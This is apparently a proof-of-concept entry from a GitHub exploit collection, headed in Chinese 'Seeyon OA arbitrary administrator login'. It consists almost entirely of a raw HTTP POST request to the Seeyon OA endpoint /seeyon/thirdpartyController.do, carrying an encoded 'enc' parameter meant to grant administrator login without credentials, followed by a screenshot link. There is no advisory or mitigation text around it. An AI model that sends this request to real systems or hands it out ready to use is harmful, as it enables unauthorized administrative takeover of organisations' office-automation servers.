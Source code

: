 ## 致远OA任意管理员登录
```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: loginPageURL="/main.do";
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

```
![image](https://github.com/wy876/POC/assets/139549762/01307e49-863e-4cef-a9cb-0e1258902485)
